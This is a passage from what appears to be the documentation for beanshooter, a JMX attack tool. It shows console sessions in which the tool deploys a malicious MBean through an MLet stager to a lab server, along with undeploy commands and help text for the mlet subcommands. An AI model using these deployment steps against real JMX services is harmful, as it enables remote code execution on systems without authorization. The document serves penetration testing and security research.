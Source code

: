 ```console
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=4836961801045 from the MBeanServer.
[+] 	MBean was successfully removed.
[qtc@devbox ~]$ beanshooter tonka deploy 172.17.0.2 9010 --stager-url file:///tmp/index.html
[+] Starting MBean deployment.
[+]
[+] 	Deplyoing MBean: TonkaBean
[+]
[+] 		MBean class is not known by the server.
[+] 		Starting MBean deployment.
[+]
[+] 			Deplyoing MBean: MLet
[+] 			MBean with object name DefaultDomain:type=MLet was successfully deployed.
[+]
[+] 		Loading MBean from file:///tmp/index.html
[+]
[+] 	MBean with object name MLetTonkaBean:name=TonkaBean,id=1 was successfully deployed.
```

If you want to know more about the technique that is implemented by the `standard` action, I highly
recommend this [blog post](https://codewhitesec.blogspot.com/2023/03/jmx-exploitation-revisited.html)
by [CODE WHITE](https://twitter.com/codewhitesec) which explains it in great detail.

#### Undeploy

The `undeploy` action removes the *MBean* with the specified `ObjectName` from the *JMX* service:

```console
[qtc@devbox ~]$ beanshooter undeploy 172.17.0.2 9010 qtc.test:type=Example 
[+] Removing MBean with ObjectName qtc.test:type=Example from the MBeanServer.
[+] MBean was successfully removed.
```


### MBean Operations

---

In contrast to [basic operations](#basic-operations) that target the general functionality exposed by a *JMX*
endpoint, *MBean operations* target a specific *MBean*. For each supported *MBean*, *beanshooter* provides
another subparser containing the available operations and options for the corresponding *MBean*. The following
listing shows an example for the `mlet` *MBean* and the associated subparser:

```console
[qtc@devbox ~]$ beanshooter mlet -h
usage: beanshooter mlet [-h]   ...

positional arguments:

    load                 load a new MBean from the specified URL
    attr                 set or get MBean attributes
    deploy               deploys the specified MBean on the JMX server
    info                 print server information about the MBean
    invoke               invoke the specified method on the MBean
    stats                print local information about the MBean
    status               checks whether the MBean is registered
    undeploy             undeploys the specified MBEAN from the JMX server

named arguments:
  -h, --help             show this help message and exit
```